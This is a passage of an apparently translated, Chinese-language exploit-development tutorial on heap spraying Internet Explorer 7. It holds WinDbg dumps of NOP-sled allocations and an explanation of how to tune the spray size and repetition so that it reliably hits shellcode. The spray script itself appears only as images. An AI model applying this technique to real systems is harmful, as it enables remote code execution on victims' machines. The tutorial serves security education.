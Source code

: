 ```
03130136  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
03130146  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
03130156  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:013&gt; d 03130106-20-1000
0312f0e6  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312f0f6  90 90 90 90 90 90 90 90-46 75 7a 7a 79 53 65 63  ........FuzzySec
0312f106  75 72 69 74 79 90 00 00-90 90 90 90 90 90 90 90  urity...........
0312f116  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312f126  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312f136  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312f146  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312f156  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:013&gt; d 03130106-20-2000
0312e0e6  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312e0f6  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
0312e106  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312e116  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312e126  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312e136  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312e146  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312e156  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0:013&gt; d 03130106-20-3000
0312d0e6  90 90 90 90 90 90 90 90-46 75 7a 7a 79 53 65 63  ........FuzzySec
0312d0f6  75 72 69 74 79 90 00 00-90 90 90 90 90 90 90 90  urity...........
0312d106  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312d116  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312d126  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312d136  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312d146  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
0312d156  90 90 90 90 90 90 90 90-90 90 90 90 90 90 90 90  ................
```

很好，不可否认的是我们很幸运得到连续的分配。接下来需要做什么呢。

(1)  分配更多的数据填充更多的堆空间(覆写更高的内存地址)；

(2)  改变块大小以适应BSTR对象，是分配更稳定和连续。

下面是最终的堆喷射脚本(公开的漏洞利用脚本，在所有IE7以下的版本测试结果一致。

[![](https://p3.ssl.qhimg.com/t011b9eb8418deae822.png)](https://p3.ssl.qhimg.com/t011b9eb8418deae822.png)

[![](https://p5.ssl.qhimg.com/t019fac37e6721fe9a5.png)](https://p5.ssl.qhimg.com/t019fac37e6721fe9a5.png)

这个脚本喷射更大的内存块 0x4000(=262144字节=0.25mb)，重复喷喷射500次(=125mb)。考虑到我们的shellcode不太会大于1000字节，这意味着我们有99.997%的概率命中NOP’s。这样使得堆喷射更稳定。让我们在Windbg观察堆喷射：

```
0:014&gt; s -a 0x00000000 L?7fffffff "FuzzySecurity"
02a34010  46 75 7a 7a 79 53 65 63-75 72 69 74 79 0d 0a 20  FuzzySecurity.. 
030ca75c  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03b4ffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03c6ffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03cfffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03d8ffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03e1ffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03eaffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
03f3ffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
[...Snip...]
1521ffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
152affee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
1533ffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
153cffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
1545ffee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
154effee  46 75 7a 7a 79 53 65 63-75 72 69 74 79 90 00 00  FuzzySecurity...
```